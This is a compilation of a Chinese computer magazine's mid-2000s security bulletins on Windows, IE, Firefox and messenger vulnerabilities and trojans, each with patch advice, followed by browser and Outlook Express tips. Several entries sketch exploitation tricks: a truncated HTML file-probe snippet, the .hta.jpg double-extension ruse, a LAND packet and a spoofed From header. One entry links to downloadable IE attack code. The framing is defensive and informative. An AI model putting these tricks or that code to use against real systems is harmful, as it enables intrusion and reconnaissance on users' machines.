非常好用的拼音输入法。增强版提供了海量词库，加入了输入法调整工具，加入实用特殊符号快捷输入等等。喜欢使用紫光拼音的朋友一定要升级至此版本。
下载地址：http://nj.onlinedown.net/soft/39112.htm


## 第一期

### 漏洞再现：病毒变图片，轻松入侵你的电脑

**影响系统：** Windows XP SP1/SP2、Windows 2000、IE 6.0

在Web网页中右击图片选择“图片另存为”命令保存图像文件时，如果该图像文件名包含多个扩展名，IE默认设置会擅自去除最后的扩展名并保存。利用这一漏洞，入侵者就可以进入你的系统了。

例如，一个包括有恶意代码的图片文件123456.hta.jpg，在另存为后，会保存为123456.hta，而当你不小心执行(打开)123456.hta时，Windows会将该文件解释为HTML文件，并执行其中代码。如果把代码换成木马源代码并加以修改，就成为了木马新的传播途径。可以说这是ActiveX控件漏洞的一个变形利用，因为用户下载图片时代代码不运行，所以很有可能避开防火墙和杀毒软件的监视。想想看要是一个壁纸下载网站用了这种方法……

### 补“洞”方法：

目前连Windows XP SP2也难逃这个漏洞，直到截稿时，微软也尚未公布解决补丁。只能通过如下方法来避免被攻击：打开“资源管理器”，将“工具”菜单“文件夹选项”设置中的“隐藏已知文件类型的扩展名”勾选去除。这可避免IE擅自修改文件扩展名，以免出现上述漏洞。

### 漏洞再现：几行代码就可判断出系统安装的软件

**影响系统：** 除Windows XP SP2外的几乎所有系统

IE在处理‘sysimage://’协议时存在问题，远程攻击者可利用这个漏洞判断目标系统中安装的软件。

比如，攻击者提交如下代码：
```
Cannot Find File!</b>');"
onError="document.write('<b>File Exists!</b>');">
```
如果用户存在这个漏洞就会显示“记事本”的图标。可以看到入侵者很容易的把代码隐藏到正常的网页中。如果把返回的数据保存至数据库中，这样入侵者可以通过判断用户安装的软件(如利用Winamp、Ser-U等软件的漏洞)来进行攻击。

### 补“洞”方法：

截止发稿前微软还未发布任何关于这个漏洞的补丁，IE6.01 SP1以下都受到这个漏洞威胁。

### 罪犯名称：“证券大盗”木马病毒(Trojan/PSW.Soufan)

**案情描述：** 该木马可以盗取包括南方证券、国泰君安等多家证券交易系统的交易账户和密码，黑客可以恶意操纵被盗股票，将某高价股票以低价卖出，然后自己买进后再转手卖出，赚取中间差价，给被盗股民带来巨大损失。

更为狡猾的是，它每次运行后即“自杀”，并删除自身在系统中留下的文件，达到销毁“罪证”的目的。

该木马曾被添加到某个网站上(域名与知名搜房网http://www.soufang.com.cn相似)，加速了传播速度。目前该网站已经被删除。

### 抓获方法：

升级杀毒软件至最新版本即可查杀。

## 第二期

### 漏洞再现：SP2再爆惊人漏洞 拨号上网用户完全不设防

**影响系统：** Windows XP Home Edition SP2、Windows XP Pro SP2、Windows XP Tablet PC Edition 2005和Windows XP Media Center Edition SP2

近日，微软悄悄放出了一个“紧急”级别的补丁，修复Windows XP SP2内置防火墙Windows Firewall的一个严重漏洞。

微软在相关资料文档中说明：当在Windows XP SP2中使用其内置防火墙后，你会发现如果是拨号上网，网络上任何人都能访问你的电脑。

这个最新发现的漏洞只对使用拨号连接到互联网的用户有影响，这是由于系统内置防火墙中默认使用了“仅我的网络”(选择“防火墙设置→例外→添加端口→更改范围→仅我的网络”)选项之故。“仅我的网络”(英文版为My network (subnet) only)项，会错误地解释本地子网(Subnet)。由于部分拨号软件配置路由表方式较特别，防火墙有时会将整个互联网解释为本地子网，便导致互联网上任何人都能访问出现此异常的电脑。

据微软资料解释，当“仅我的网络”选项打开时，它会自动打开Windows XP中的“文件及打印机共享”，这让使用拨号连接的用户的共享驱动器向全世界开放。

### 补洞方法：

微软已经发布了这个补丁，大家可以到这里来检查没有安装过的微软补丁：
`http://v4.Windowsupdate.microsoft.com/zhcn/default.asp`

### 漏洞再现：Winamp 5.07远程拒绝服务漏洞

**影响系统：** Winamp 5.07

在新版Winamp中，入侵者可以利用Winamp对MP4和M4A文件缺少正确处理的BUG，使电脑瞬间消耗大量CPU资源，导致系统崩溃。比如，在打开MP4或M4A文件时，在其中插入任意数据，这样下次打开时就可能会导致Winamp崩溃。同时在建立包含错误代码的NSV或NSA文件扩展时，也会出现同样问题。

### 补洞方法：

目前开发厂商还没有提供补丁或者升级程序，大家请关注厂商的主页(http://www.winamp.com/)以获取最新版本，或使用其他播放器软件。(河北 香草天空)

### 罪犯名称：论坛杀手(Net-Worm.Perl.Santy.a)

**案情描述：** “论坛杀手”会用“viewtopic.php”作为关键词在Google上进行搜索，然后攻击搜索到的论坛。如果这些论坛存在漏洞则会被病毒入侵，所有网页文件和脚本文件都被病毒替换掉，当用户再访问这些论坛时，就会看到错误提示:This site is defaced!!! NeverEverNoSanity WebWorm generation。

### 抓获方法：

如果你的论坛使用的是PHPBB程序的，请升级到最新版本。

## 第三期

### 漏洞再现：一个鼠标指针文件就能让系统崩溃

**影响系统：** Windows 2000 SP1/SP2/SP3/SP4、Windows XP SP1

**漏洞分析：** ANI是Windows支持的一种动画光标格式，该文件格式是由多个普通光标文件组成一个动态图标，Windows中的动态鼠标指针就是这文件格式，ANI文件头会标记每帧切换的频率，该值越小切换速度越快，当建立一个ANI的动画鼠标指针后，将光标文件的切换频率调整到“0”时，受影响的Windows就会陷入内核的死锁，不再响应任何用户界面的操作。

不仅仅是使用ANI文件时会触发，只要在“资源管理器”或网页中打开ANI文件存在的目录就会触发。攻击者引诱用户访问含有恶意光标显示的页面，以及发送嵌入光标的HTML邮件，导致被攻击者系统内核锁死，出现蓝屏崩溃。

### 补“洞”方法：

如果是Windows XP，推荐用户升级至SP2，Windows 2000用户请关注微软官方补丁发布，最后提醒大家不要轻易接受QQ、MSN Messenger用户传送的文件或登录他们发送过来的网站，并要注意对信箱的信件进行病毒检测。

### 漏洞再现：Microsoft Internet Explorer远程执行任意漏洞

**影响系统：** Windows XP SP1/SP2、Windows 2000

**漏洞分析：** IE结合多种漏洞如Help ActiveX控件等问题，恶意攻击者可以利用这个漏洞让用户无须确认就执行任意文件，来实现进攻。

读者可以从http://www.newhua.com/cfan/200503/200503通缉令测试页面.rar下载测试页面。用IE打开测试页面后，就会自动弹出一个帮助窗口……

### 补“洞”方法：

由于在截稿前微软还没有对此漏洞提供有效的补丁，请大家随时关注微软的官方更新页面，另外，此漏洞在Windows XP SP2下运行时将提示是否运行脚本，大家一定要选否，这是惟一的防御机会。(河北 香草天空)

### 罪犯名称：“隐形大盗”病毒(Backdoor/shell.a)

**案情描述：** “隐形大盗”实际上是一种系统级后门程序。该病毒发作后，立即将自身病毒体删除，然后建立自身进程，插入正常的系统文件中，以躲避反病毒软件的查杀。病毒还会使用挂接钩子和端口映射等技术手段，使得用户电脑在毫无征兆的情况下即被黑客远程控制。

### 抓获方法：

针对此类病毒，最有效的解决办法是打开杀毒软件的文件监视，以便第一时间查杀该病毒文件主体，因为一旦病毒运行后其主体会被自动删除。

## 第四期

### 漏洞再现：影音版权认证变病毒

**影响系统：** Windows XP、Windows Media Player 10

微软的播放器在Windows Media Player 10(以下简称WMP)发布时加载了DRM(数字版权管理)版权保护技术，但它竟被黑客用作传播病毒的载体。它可以在没有引起警觉的用户的电脑中安装间谍软件、广告软件、拨号器和电脑病毒等。目前，一些脚本爱好者已经发现了一些应用方法，不过只暂时出现在P2P网络中的视频文件中。这种新的特洛伊被定义成Trj/WmvDownloader.A。

当用户播放具有版权保护的Windows媒体文件时，如果认证没有存储在电脑中，播放软件将在互联网上搜索，而如果DRM被引导到加载了大量广告软件、间谍软件、MODEM 拨号器和其他病毒的网站上，就会出现问题。

虽然这些特洛伊出现在 P2P 网络中，但能够通过电子邮件、FTP 和其他互联网下载渠道进行传播。而且，电脑中招的速度很快。在某个爱好者测试的时候发现，当他按下 “Yes” 键开始下载 DRM 认证，发现电脑很快被间谍软件污染，瞬间就有86个文件夹、1247 个文件被感染。

### 补“洞”方法：

这个漏洞可以说是对微软的讽刺，同时安装 Windows SP2 及 Windows Media Player10 可防止此问题。

## 第五期

### 漏洞再现：用IE下载FTP路径目录遍历漏洞

**影响系统：**除 Windows XP SP2+IE6 SP1 外的所有系统

**漏洞分析：**当用户通过 IE 从 FTP 服务器下载文件到本地文件夹时，文件将会保存，不过如果文件名包含 "../" 时，文件实际路径就会更改，通过设置恶意文件名和恶意 FTP 服务器，诱使用户通过拖拽文件进行复制(或右击后保存)，可导致文件自动保存在系统目录中，如保存在启动文件夹，就可导致任意命令执行。

### 补“洞”方法：

利用双击过程来下载文件不受此漏洞影响。Windows XP 用户需升级至 SP2，也可等待微软的 IE 升级(http://www.microsoft.com/Windows/ie/default.asp)，或使用其他 FTP 客户端软件进行下载。

### 漏洞再现：RealPlayer 语言包存在任意文件删除的漏洞

**影响系统：**RealPlayer 8.0/10、RealOne Player 2.0

**漏洞分析：**RealPlayer/RealOne 支持私有包递送文件类型，命令为 Real Metadata Packages(即 RMP)，这些文件包含有 HTML 类型语言，这其中含有各种文件、RealPlayer 扩展的信息及相关资源网址。该文件中还包含有一个<FILENAME>标记，它用于指向要下载的相关文件，如果下载的文件已经在系统上，那么就会在没有警告的情况下删除文件。通过在文件名中包含多个 "../" 进行目录遍历，绕过下载目录，指向任意系统文件，可导致由于文件已经存在而被删除。

### 补“洞”方法：

推荐使用 RealPlayer 10.5，如果需要更新可以去华军软件下载最新版本。RealOne 2.0 下载地址：http://www.onlinedown.net/soft/7872.htm, RealPlayer 10.5 下载地址：http://www.onlinedown.net/soft/16622.htm。

## 第六期

### 漏洞再现：书虫病毒

**影响系统：**未打 IE6.1 SP1 补丁的所有系统

**漏洞分析：**“书虫”木马病毒利用 IE 漏洞疯狂感染系统文件造成巨大的经济损失，现在又发展成每日更新的变种病毒公然对反病毒软件进行挑战。木马通过 QQ 尾巴病毒传播的过程中隐藏执行一个脚本文件，反向连接下载病毒从而躲过杀毒软件的查杀。

### 补“洞”方法：

警惕 QQ 等即时通讯工具发来含网址的消息，不轻易点击其网址，同时更新 IE 至 SP1。

### 漏洞再现：Windows MSN Messenger 的图片陷阱

**影响系统：**Microsoft MSN Messenger 6.1/6.2、Microsoft Windows Messenger version 5.0

**漏洞分析：**MSN Messenger(以下简称MSN) 也出现了漏洞，微软真的不太平啊，MSN 6.2 以前版本在处理 PNG 图片文件时没有进行严格分析，PNG 文件如果被恶意构造过后就有可能导致缓冲溢出，造成用户系统被攻击，从而让入侵者完全控制。

### 补“洞”方法：

虽然 MSN 的漏洞已经在微软发布的漏洞补丁中进行修复（代号为 MS05009），但仍然有大量电脑未打此补丁，因此被黑客入侵。也可以直接下载 MSN 的相应补丁或安装高版本的 Windows Messenger。
Microsoft MSN Messenger 6.1/6.2 补丁下载地址：http://www.microsoft.com/downloads/details.aspx?displaylang=zh-cn&FamilyID=ebe898d8-fe1c-4a5e-993c-5fab3e62c925
Microsoft Windows Messenger 5.1: http://www.microsoft.com/downloads/details.aspx?displaylang=zh-cn&FamilyID=a8d9eb73-5f8c-4b9a-940f-9157a3b3d774

### 漏洞再现：IE 漏洞导致网游木马横行

**影响系统：**包括 Windows XP SP2 在内的几乎所有系统

**漏洞分析：**大家都知道最近网游号码被盗相当严重，其实这和 IE 的远程代码执行或敏感信息泄露漏洞有很大联系，一些键盘记录软件通过这些漏洞在 Web 网站和 E-mail 中夹带传播，当 IE 处理 DHTML 出现错误时木马就可能被执行。恶意攻击者如果成功利用此漏洞可以完全控制用户系统。

### 补“洞”方法：

DHTML 方法堆破坏漏洞这个漏洞已经在微软发布的漏洞中包含，其代号为 MS05014，打好 SP2 后，再从 http://www.microsoft.com/downloads/details.aspx?displaylang=zh-cn&FamilyID=82056eab-8367-4b04-a11a-1002d14eb55b 处下载相应的补丁即可。如果不能立刻安装补丁或升级，建议采取以下措施：
① 在 Internet 和本地 Intranet 安全区中将安全区设置为“高”，以便在运行 ActiveX 控件和活动脚本前获得提示；
② 以纯文本格式阅读邮件消息，以防范 HTML 格式的 E-mail 攻击。
（河北 香草天空）

## 第七期

### 漏洞再现：LAND 报文错误导致死循环攻击

**影响系统：**Windows 2003 Server 及 Windows XP SP2

**漏洞分析：**当用户因为觉得 Windows 自身的防火墙占用系统资源而关闭后，这个漏洞就有可能被恶意攻击者利用，攻击者可以构造一个 SYN 标记的基于 TCP 协议的数据包报文，在此报文中，将源 IP 地址及端口和目标电脑 IP 地址及端口都设置为被攻击的用户电脑，这样当文件服务器发送单个报文的时候产生死循环，导致“资源管理器”无响应、资源被完全消耗，最终使电脑及网络完全瘫痪。

### 补“洞”办法：

微软的防火墙既然存在就有其存在的意义，在微软没有公布相应补丁时还是让它监守着我们的电脑吧。

### 漏洞再现：FireFox 插件处理错误漏洞

**影响系统：**Firefox 1.0.1 以前版本

**漏洞分析：**由于 Firefox 的优异表现，这款浏览器成为网友追捧的新贵，不过它并不那么完美，在 Firefox 浏览器中的一个插件能够被攻击者制作成带有攻击效果的临时目录，攻击者可以利用这个目录删除用户电脑中的任何文件，因此它很可能被黑客恶意利用，对用户进行攻击。

### 补洞方法：

在最新版的 Firefox 1.0.1 浏览器中这个漏洞已经被修补，请大家尽快升级。下载地址：http://www.onlinedown.net/soft/32189.htm。

### 漏洞再现：Firefox 侧栏脚本注入漏洞

**影响系统：**Firefox 1.0.2 前所有版本

**漏洞分析：**随着 Firefox 浏览器被越来越多的人使用，它的漏洞也慢慢显露出来，最近又发现一个新的漏洞——Firefox 的侧边栏脚本允许远程代码执行。当用户在侧边栏中将恶意网页标记为书签的时候就会出现问题，恶意网页会打开特权页面，通过运行 JavaScript 程序，利用用户的权限就可以执行任意代码，如果代码中夹带着木马等程序，电脑就会被恶意攻击者远程控制。

### 补“洞”办法：

官方已经发布了 Firefox1.0.2 版的浏览器，修补了上述漏洞，建议用户升级。如果不能升级新版本的浏览器建议不要使用侧栏面板。

### 漏洞再现：Blackice 防火墙时间漏洞

**影响系统：**BlackICE Defender V3.5.cp

**漏洞分析：**在黑客业内被认可的安全防火墙也有疏漏的地方，Blackice 防火墙在系统时间为 2099 年时会自动关闭，而 Windows 系统极限时间也是 2099 年，恶意攻击者通过一个简单的代码就可以修改系统时间，从而轻松推倒这道强悍的“墙”。

### 补“洞”办法：

下载最新的 BlackICE Defender V3.6.cp 防火墙，下载地址为 http://www.newhua.com/soft/11664.htm。当然也可以换用其他防火墙。

### 病毒再现：好友盗号器变种 R (Trojan.QQPSW.EasyGet.r)

**病毒分析：**该病毒是个可执行程序，不过采用了图片文件的图标。运行后会用 IE 打开一张美女图片，在普通用户看来就是一个很普通的图片文件，但其实已经被病毒感染。中毒后，用户登录自己的 QQ 时，病毒就会将窃取的密码等个人信息发送给病毒作者。当感染这种病毒后，系统显示任何图片都会使用“图片和传真查看器”；无论你把好友传过来的“美女图片”放在什么地方，IE 打开这个“图片”时，在浏览器的地址栏里都显示的是“Windows/temp”；当用 IE 浏览器打开美女图片后，如果用户同时按下 Shift + * 键，病毒会弹出一个管理界面，这是病毒作者留下的控制性后门。如果遇到好友给你传送图片，而图片运行后出现上面的问题，就表示你已经中了“好友盗号器变种 R”病毒。

### 拆“着”办法：

升级杀毒软件至最新版本，就可彻底查杀此病毒。同时在接收文件时要注意看清楚文件扩展名，不要被图标迷惑。

### 病毒再现：MSN 好快(I-Worm/MSN.Sofast)

**病毒分析：**病毒运行后，MSN Messenger 会向用户好友发送扩展名为 PIF 的病毒文件。同时在系统目录下建立多达 18 个病毒文件，并修改注册表使病毒随 Windows 启动。另外，病毒不仅会屏蔽多数国外杀毒厂商的网站，还能结束多种杀毒软件和防火墙的进程，禁止注册表编辑器和任务管理器运行。除了上面这些现象外，这款病毒还会通过复制自身到共享文件夹和 P2P 软件共享文件夹进行传播，可能的文件名为 Messenger Plus! 3.50.exe。如果你突然打了一个网页 c:\crazy-frog.<html，并连接到一名为http://frog.***.com/的网站，也说明是中了这种病毒。

拆“招”办法：升级杀毒软件至最新的病毒库，同时不要点击来自MSN Messenger好友的不明文件。

（河北 香草天空）

## 第九期

### 漏洞再现:小心Firefox新外挂程序中的恶意程序

影响系统:Firefox所有版本

漏洞分析:Firefox浏览器的出现让很多用户放弃了IE，随着人们对它的逐渐了解，Firefox爱好者为屏蔽广告等垃圾信息推出了一些类似QQ珊瑚虫外挂的插件，如：最新的外挂程序Greasemonkey就为个人用户带来了很多方便，但有些恶意攻击者也趁此机会将恶意程序夹带到外挂程序中，当Firefox启动时将自动调用外挂程序，恶意代码也随之运行。黑客可能创造某个使用者程序，提供使用者想要的功能，但同时呼叫黑客的服务器，把你的Cookies文件传回该部电脑，甚至扫描密码栏并上传。

补“洞”方法：为了安全使用Firefox建议大家暂时还是不要使用外挂，并对本地防火墙做好限制，在防火墙设置中选择不允许本地调用类似Outlook等程序以防止黑客利用信箱发送信息。

### 漏洞再现:Microsoft Windows XP远程拒绝服务漏洞

影响系统:Microsoft Windows XP SP1系统

漏洞分析:Windows XP SP2出现已经有段时间了，不过还是有很多用户没有升级，最近Windows XP SP1又出现一个同域内拒绝服务的漏洞，由于Windows系统对远程桌面没有进行严格的用户权限检查测试，远程攻击者通过Windows验证不严格的漏洞可以使用TSSHutdn.exe命令来重启或关闭电脑。

不过攻击者要和目标计算机在同一个域中，也就是类似学校局域网和公司比较容易被攻击。

补“洞”方法:目前Microsoft已经在官方主页推出相关补丁，请用户尽快更新。

下载地址:http://support.microsoft.com/kb/889323/

### 病毒再现：“漏波”变种bl(Backdoor/LeakerBot.bl)

病毒分析：该病毒通过网络传播，黑客利用此类病毒，可以达到远程控制染毒电脑并窃取机密信息的目的。该病毒大小为135KB左右，为后门类病毒，感染Windows 2000以上的操作系统。病毒是利用微软DCOM RPC漏洞(MS03-026)及缓冲区溢出漏洞(MS04-011)以及缺省或弱密码网络共享进行传播的后门程序。中毒后，病毒通过FTP及HTTP获取用户部分文件及用户注册表资料，重启计算机，终止某些杀毒软件、防火墙程序进程及部分服务，同时盗取指定游戏序列号。

拆“招”办法:及时更新Windows操作系统补丁程序，避免病毒利用微软漏洞攻击电脑，同时及时升级杀毒软件，并开启各项监控程序。

### 病毒再现:麦西(Trojan/PSW.Mhxy)

病毒分析:该文件大小约为19KB，为木马类病毒，可感染所有Windows系统，病毒可允许黑客非授权访问被感染计算机，并可作为代理服务器在被感染的计算机上运行，通过IRC、局域网、新闻组、邮件等传播。黑客可通过此代理服务器浏览站点、攻击系统或者转发垃圾邮件。该木马还可导致被感染计算机用户在使用IE时产生大量弹出式广告，并修改用户IE浏览器首页，使其转向黑客指定站点。

拆“招”办法:收到来历不明的邮件时，请不要随意打开其中给出的链接以及附件，以免中毒；同时，打开通过网络共享下载的文件之前，建议先进行病毒查杀。最后，还是要提醒大家要及时升级杀毒软件。

（河北 香草天空）

## 第十期

### 漏洞再现:Windows XP中WMF文件本地拒绝服务漏洞

影响系统:Windows XP所有版本

影响系统:Windows XP SP2出现以后广大个人用户都开始使用，但它也并非无懈可击，当恶意攻击者能够创建恶意的WMF文件（该文件必须为WMF扩展名，否则不会导致攻击），诱导用户在用“资源管理器”打开了该文件所在的文件夹时，只要选中此文件或运行文件，就会使CPU占用率达到100%，导致系统崩溃。

补“洞”办法：至截稿时微软还没有发布相应补丁，这个漏洞一般会被黑客与IE漏洞结合使用，建议对IE升级，并删除本地可疑的WMF文件。注意，删除时要关闭“资源管理器”的预览功能。

### 漏洞再现:Microsoft Outlook地址欺骗漏洞

影响系统:Microsoft Outlook XP/2003

漏洞分析:Microsoft Outlook出现后相对较安全，但最近有黑客把目标瞄向了它的身上，由于Outlook允许用户在屏幕上显示FROM字段，当这个字段中用多个逗号分割地址的时候，Outlook只会显示第一个逗号前的地址。如:From: test@your.company, Phisher <ccc@kkk.ddd>，那么最后显示test@your.company。这时候攻击者可以利用邮件客户端中的地址欺骗漏洞从终端用户获取敏感信息，进行其他攻击。

补洞方法:阅读邮件前，请检查可疑邮件的完整邮箱，防止被欺骗。至截稿时微软还未发布任何相关补丁文件。

### 漏洞再现:新版Firefox、JavaScript导致用户敏感信息泄漏

影响系统:Firefox 1.0.2

漏洞分析:Firefox浏览器经过近半年的推广，在用户中已经有了很多拥护者，但其1.0.2版又出现了漏洞，当用户使用JavaScript脚本引擎中的“lambda”替代法可在运行JavaScript字符串结束之后暴露出一些专用的内存空间。利用这个安全漏洞可以获得内存中敏感的信息。类似于以前流行的键盘记录软件记录当前内存中保存的信息，而非存储在硬盘的信息。

补“洞”方法:Firefox官方还未发布补丁，建议暂时关闭浏览器中支持JavaScript的功能，或到http://www.firefoxcn.com/升级至最新版本。

### 病毒再现：“高波”病毒最新变种aqc(Backdoor/Agobot.aqc)

病毒分析:该病毒除包括以前的盗取用户机密信息、执行DDoS攻击、开启SOCKS4代理服务等，还会释放出另一个“麦涛”病毒（关于“麦涛”病毒，可参考2005年第9期《CFan通缉令》）。“高波”aqc运行后，首先在系统目录及C盘目录下创建属性为只读及隐藏的病毒文件，然后再释放“麦涛”病毒变种，接着修改注册表，实现程序文件的开机自启。破坏Windows的DCOM服务，修改用户文件共享目录，终止一些杀毒软件及防火墙的进程。同时修改用户计算机HOSTS文件，屏蔽杀毒软件厂商站点。此外，它还会开启TCP113端口，连接黑客指定IRC服务器，可执行的黑客指令包括:下载并执行黑客指定程序文件；向外发送数据包；记录键击，盗取用户机密信息；执行DDoS攻击等。

拆“招”办法:及时升级杀毒软件，同时为系统打好补丁。

## 第十一期

### 漏洞再现:ActiveX控件信息泄露漏洞

影响系统:Adobe Acrobat Reader 7.0.1前所 有版本

漏洞分析:Adobe的Acrobat Reader是著名的PDF文件阅读器。最近网络安全爱好者发现其存在一个ActiveX控件信息泄露的漏洞，如果通过在某些环境下将恶意控件代码放置于网页，恶意攻击者就能通过调用LoadFile(文件)来监控PDF阅读器运行来发现是否存在本地文件，从而得到需要的文件路径以及文件是否存在。但注意攻击者无法利用这个漏洞获得文件的内容，不过这个漏洞很可能被恶意攻击者用作病毒传播的手段。

补“洞”办法:目前Adobe公司已经发布了升级补丁以修复这个安全问题，提醒大家尽快升级。http://www.adobe.com/support/downloads/main.html

### 漏洞再现:Firefox搜索插件跨站脚本执行漏洞

影响系统:Mozilla Firefox 1.0.2/Mozilla Suite 1.7.7之前版本

漏洞分析:Firefox正为广大用户接受并使用，不过漏洞之多和IE也有一拼了，在Firefox中的搜索插件技术基于Apple的sherlock文件。这些文件的安装程序和解析程序中存在一些审核不严格的缺陷，可能导致自动允许创建用作间谍软件和/或执行任意代码载体的搜索引擎。如果攻击者得到创建特制的sherlock文件的权限，该文件可以以当前标签页的安全环境运行Javascript代码，或不经用户交互就覆盖已有的搜索引擎，导致读取敏感信息或远程执行任意代码。

补“洞”办法:读者请尽快官方主页下载Firefox 1.0.4新版本, http://www.mozilla.org/products/firefox/

如需最新中文版，请到华军软件园下载Firefox 1.0.4中文版http://www.onlinedown.net/soft/3600.htm

### 漏洞再现:微软IE(MS-05-020)长字符破坏漏洞

影响系统:Microsoft Internet Explorer 5.5 SP2/6.0 SP1

漏洞分析:微软的IE也一点不清闲，它支持使用很多DHTML方法，当使用JavaScript动态创建HTML元素时在removeNode()等DHTML语句方法中存在几个漏洞，由于IE的对象处理代码内存管理例程，在某些情况下线程会读取已被其他线程改写或未经初始化的内存数据，这可能导致随机的崩溃或远程执行代码。当攻击者开发出EXP后，攻击将变得异常简单，有可能出现大量的计算机被攻击。大家可以到http://www.newhua.com/cfan/200511/internetexploiter2.rar下载攻击代码(注意此代码仅用于研究，禁止用于非法活动，使用时要关闭防火墙并将扩展名改为HTML)

补“洞”办法:在Internet和本地Intranet安全区中运行ActiveX控件和活动脚本前将安全区设置为“高”以提示，并尽快打上MS-05-020的补丁。

## 拒绝繁琐 上网省时大法

### 网页浏览篇

#### 1.IE(版本:6.0.2800.1106)

- 第一招: 多用快捷键
    省时指数: ★★★★★
    上网时，浏览各种网站当然是必不可少的。看看电视里那些“黑客”好像不太用鼠标，对着键盘一阵猛击就轻松完成了各种工作，而自己用鼠标点了半天，效率却不高的。

    Backspace: 常常“泡”论坛的网友最有体会，当你漫无目的地游荡在论坛的大堆帖子中时，IE的“后退”按钮使用频率最高。可是你知道吗？使用退格键也可以完成“后退”按钮的任务，让“后退”下岗吧！

    Tab/Shift + Tab: 申请、注册……一大堆输入框使你的鼠标始终闲不下来，费力地将光标一次次地定位在输入框中，再放开鼠标转由键盘输入。这一系列的动作已经大大“谋杀”了你的精力，其实用Tab(下一个输入框)和Shift + Tab(上一个输入框)就可以在各个输入框中自由切换了。

    Alt + D: 在IE地址栏输入网址时，还必须先把光标移动到地址栏上全选其中的地址，再输入新地址，而用这个快捷键便可以轻松地把一系列操作简化为一个动作。

    F4 + ↑↓: IE的地址栏会将以前访问过的网站记录下来，以便今后能够快速访问而不必再次输入网址，不妨把鼠标点击地址栏小箭头的动作也省略掉，以F4和↑↓键就能够更进一步提高速度。

    Ctrl + Enter: 如果要进入http://www.uuland.com，你会怎么做？如果还是老老实实地把网址打全再回车，那你就落伍了。在IE地址栏中输入“uuland”(不含引号)然后Ctrl + Enter，IE就会自动为你完成www和.com的添加。

    Ctrl + I: 大家的“收藏夹”都收集了很多不错的网址，通过这个组合键能帮助你更快地打开收藏夹，接着用↑↓选择其中收藏的项目回车进入即可。

    Ctrl + D: 要把网页加入“收藏夹”，大多数人恐怕会选择IE菜单“收藏→添加到收藏夹”，然后再确认加入。这样用时大约为5秒，而一次Ctrl + D甚至用不了1秒。

    Ctrl + ↑↓: 如果你采用上述的快捷键方式浏览“收藏夹”中的项目，那么将最常访问的网址排在收藏夹的最上端位置可以节省你的几次↑↓选择。用Ctrl + ↑↓可以将收藏夹中当前选中的项目自由地上下移动，比鼠标的拖放可快多了！

- 第二招: 让搜索更简单
    省时指数: ★★★★
    当需要搜索网页时，通常会先打开Google、Baidu、Yahoo等搜索引擎网站，然后再输入关键字完成搜索。何不试试IE自带的搜索呢？比如要搜索关键字“CFAN”时，只要在IE地址栏中输入“? CFAN”(不含引号，问号与关键字中有空格)回车就能利用自带的搜索引擎进行搜索。但有些朋友不太喜欢IE自带的搜索引擎，从http://www.google.com/google.reg下载注册表文件并导入“注册表”即可把IE默认的搜索改为Google(下载http://www.google.com/default.reg导入即可恢复IE默认搜索)。

    小提示
    如果要修改为其他搜索引擎，可用“记事本”打开google.reg参考其方法进行修改。

#### 2.Maxthon(版本:1.1.067)

- 第一招: 无敌的鼠标手势
    省时指数: ★★★★
    比起键盘，你可能更喜欢鼠标，那么你该试试Maxthon的“鼠标手势”，在网页上看似不经意的几个动作便完成了各种平时需要通过按钮或者菜单才能实现的命令。

    第一步: 在Maxthon中选择菜单“选项→Maxthon选项”，在弹出的窗口中选择左侧的“鼠标动作”标签，在右侧的“常规”选项卡中勾选“启用鼠标手势控制”。

    第二步: 在“鼠标动作”选项卡的“名称/命令”列表中选择相应的鼠标动作，如果你对默认的动作或对应的命令不满意，可以通过左侧的“手势注册”和右边命令选择按钮进行更改(见图1)。

    如何进行手势控制呢？
    以默认设置中的刷新页面手势为例(手势动作:上，下)，首先在需要刷新的页面中按下鼠标右键，然后将鼠标向上移动再向下移动，不必移动很长距离，只要底部状态栏中显示出动作即可(如图鼠标手势下上) 同步显示了当前已完成的动作，完成上下移动后松开右键就自动完成了页面的刷新，更详细的鼠标手势对应表可以查看刚才设置窗口中的动作命令对应列表。

- 第二招: 打开网页只用一键
    省时指数: ★★★★★
    经常访问的网站，可以将其放在Maxthon的“一键通”列表中，一键打开，省时省力。

    首先在Maxthon中选择菜单“选项→Maxthon选项”，在弹出的窗口中选择左侧的“键盘控制”标签，然后在右侧的“一键通”选项卡中双击下方列表中需要设置的按键行，输入该按键所对应打开的网址并按“确定”保存，接着勾选菜单“选项→使用网址一键通”，想访问已设置的网址只要点击相应的按键(F2 ~ F12)即可(见图2)。

    | 按键 | 网址 |
    | --- | --- |
    | F2 | http://www.google.com |
    | F3 | http://bbs.uuland.com |
    | F4 | http://bbs.cfan.com.cn |
    | F5 | http://www.cnbeta.com |
    | F6 | http://soft.winzheng.com |
    | F7 | |
    | F8 | |
    | F9 | |
    | F10 | |
    | F11 | |
    | F12 | |

- 第三招: 更“自动”的自动完成
    省时指数: ★★★★
    Maxthon和IE一样也支持网址的自动完成，而且更为方便一些。除了用Ctrl + Enter自动加上“.COM”外，还支持Shift + Enter自动完成“.NET”以及Ctrl + Shift + Enter自动完成“.COM.CN”(均不含引号)。和刚才一样，在“Maxthon选项”中选择左侧的“地址栏”标签，然后在右侧的“常规”选项卡中即可对自动完成的域名前后缀进行自由设定。

### 邮件收发篇

#### 1.Outlook Express(版本:6.00.2900.2180)

- 第一招: 保存邮件很简单
    省时指数: ★★★★
    OE要保存邮件，一般都采用菜单命令的方式，但由于不支持批量保存，所以每次选择菜单再保存的动作包含了太多的重复性。我们可以在“收件箱”的窗口布局中加入“另存为”的按钮以简化操作: 首先打开OE，选择菜单“查看→布局”打开“窗口布局属性”窗口，点击其中的“自定义工具栏”按钮，然后在弹出的“自定义工具栏”窗口的“可用工具栏按钮”列表中选中“另存为”，点击“添加→”按钮，最后依次关闭设置对话框。此时切换到OE的“收件箱”中，就能利用工具栏中的“另存为”按钮快速保存邮件了。

- 第二招: 自动分拣
    省时指数: ★★★★★
    办公室一族最头疼的莫过于要在一大堆邮件中迅速找到来自上司的“最高指示”，其实利用OE的邮件规则就能实现邮件的自动分拣。

    第一步: 打开OE，选择菜单“工具→邮件规则→邮件”，在弹出的“新建邮件规则”窗口中的“选择规则条件”列表中勾选“若‘发件人’行中包含用户”，在下方的“选择规则操作”中勾选“移动到指定的文件夹”，在“规则名称”中输入“自动分拣”(见图3)。

    第二步: 在“规则描述”中点击带有下划线的“包含用户”，在弹出的“选择用户”窗口中键入上司的邮件地址后点击“添加”，按“确定”完成(如果需要同时分拣几位上司的邮件，可“添加”多次邮件地址)。

